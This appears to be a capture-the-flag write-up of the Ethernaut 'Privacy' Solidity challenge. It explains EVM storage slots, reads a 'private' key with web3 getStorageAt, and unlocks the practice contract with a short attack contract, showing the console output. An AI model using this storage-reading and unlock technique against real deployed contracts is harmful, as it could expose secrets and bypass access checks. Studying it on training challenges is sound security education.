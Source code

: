 # Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

Challenge's  message:

>The creator of this contract was careful enough to protect the sensitive areas of its storage. Unlock this contract to beat the level.
Things that might help: - Understanding how storage works - Understanding how parameter parsing works - Understanding how casting works

In this write-up, we will focus on Privacy contract. The contract has several state variables defined. At first, there is a **locked** *boolean* variable which equals true. Secondly, we have an **ID** variable that is a public *uint256* variable that stores the timestamp value when the contract is created. Then, there is two *uint8* type variable and one *uint16* type variable. And there is bytes32 type an private array which has 3 array slots. In the constructor, the contract gets same type an array called **_data**.
Finally, there is a **unlock()** function that gets bytes16 type of an argument named **_key** and it checks if this argument same bytes16 type of **data** array's 2nd slot. If the condation is true, the unlock variable will be false.

In this point, we are clearly see that if someone get the value of the data array's 2nd slot, he easily unlocked the challenge. Well, how do we get this value from the contract? Let's move on.

## Smart Contract's Storage

Each smart contract running in the Ethereum Virtual Machine (EVM) maintains state in its own permanent storage. This storage can be thought of as a very large array, initially full of zeros. Each value in the array is 32-bytes wide, and there are 2256 such values. A smart contract can read from or write to a value at any location. That’s the extent of the storage interface.

<p align="center"><img  height="200" src="https://programtheblockchain.com/storage/storage.png"></p>

For example, we have a basic contract called **StorageTest** which helps us to understand how smart contract's storage works.


```solidity
contract StorageTest {
    uint256 a;
    bytes32 b;
}
```

In the above code:
+ ```a``` is stored at **slot 0**. 
+ ```b``` is stored at **slot 1**.

<p align="center"><img height="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Vault/img/storage.png"></p>

More about  [Smart Contract's Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

## Accessing Private Variabes In Contract's Storage

In solidity, unlike the general idea that someone can't access any private variable from external calls, we can access private variables from contract's storage because of the **_contract's storage open to external calls_**. In this senario, some libraries help us like **_web3_** to attain storage of contracts in blockchain. More about [Accessing Contract's Storage](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)

When you access storage of a contract with web3 library, you should use like this ```web.eth.getStorageAt(contract address,slot index)``` . More about [getStorageAt()](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat)


# Subverting

In the overview , we mentioned that if we get the access of data array'slot values, the challenge will be solved. After get access to private data, the only thing we must do is convert to the 2nd slot value into bytes16 format and send to challenge contract's unlock function. Here is our attack contract helps us to solve the challenge.

```solidity
pragma solidity ^0.8.17;

import './Privacy.sol';

contract Attack{

    Privacy target;

    constructor(address _target){
        target = Privacy(_target);
    }

    function attack(bytes32 _key) external{
        bytes16 key = bytes16(_key);
        target.unlock(key);
    }

}
```

Shortly, our attack contract gets an instance of target contract in constructor. Later, in the attack function, it gets an bytes32 type an argument called **_key** which is retrive 2nd slots of data array from the target contract and it **converts the argument into bytes16 format**. Final it calls the unclock() function with the new key.

```shell
await contract.locked()
true
```

```shell
await web3.eth.getStorageAt("0x9723e4E6B0F5A32329253F55a80f29fFf3ae73d5", 5)
'0x7ec6a7b3fd05ab43951c4d7f2ed28ebdd4e5d435279430a3fd6b0f1df716e32d'
```

```shell
await contract.locked()
false
```
